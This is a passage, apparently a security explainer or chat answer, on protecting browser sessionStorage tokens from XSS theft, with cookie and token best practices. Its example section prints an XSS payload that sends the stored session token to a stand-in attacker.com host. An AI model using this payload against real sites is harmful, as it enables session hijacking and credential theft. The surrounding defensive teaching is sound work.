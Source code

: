 2. **Protect `sessionStorage`**:
    - Avoid storing sensitive tokens in `sessionStorage` (prefer **HTTP-only, Secure cookies** for sessions).
    - Use the **`SameSite` cookie attribute** to prevent CSRF attacks:
      ```http
      Set-Cookie: sessionId=123; Secure; HttpOnly; SameSite=Strict
      ```

3. **Limit Data Exposure**:
   ```javascript
   // Instead of storing raw tokens:
   sessionStorage.setItem('token', 'eyJhbGciOi...');

   // Use short-lived, encrypted values:
   sessionStorage.setItem('encryptedToken', encrypt(userSpecificToken));
   ```

4. **Automated Attacks**:
    - Implement **rate limiting** and monitor for abnormal access patterns.

---

### **Why `sessionStorage` Is Vulnerable**
- Unlike **`HttpOnly` cookies**, `sessionStorage` is accessible via JavaScript.
- Unlike **`localStorage`**, `sessionStorage` is cleared when the tab closes, but this doesn't prevent theft during an active session.

---

### **Real-World Example**
1. A vulnerable comment system allows XSS:
   ```html
   <script>
     fetch('https://attacker.com/log?data=' + btoa(sessionStorage.getItem('token')));
   </script>
   ```
2. The attacker steals the token and impersonates the user.

---

### **Best Practices**
1. **Never** store sensitive session tokens in `sessionStorage` without additional protections.
2. Combine with **short-lived tokens** (e.g., JWT with 15-minute expiry).
3. Use **subresource integrity (SRI)** for third-party scripts:
   ```html
   <script src="https://example.com/script.js" integrity="sha384-..."></script>
   ```

By prioritizing XSS prevention and secure storage mechanisms, you can significantly reduce the risk of session hijacking.

---

Q: is this statement correct: XSS is a client-side exploit that allows an attacker to inject and execute malicious client-side js code in another user's browser.
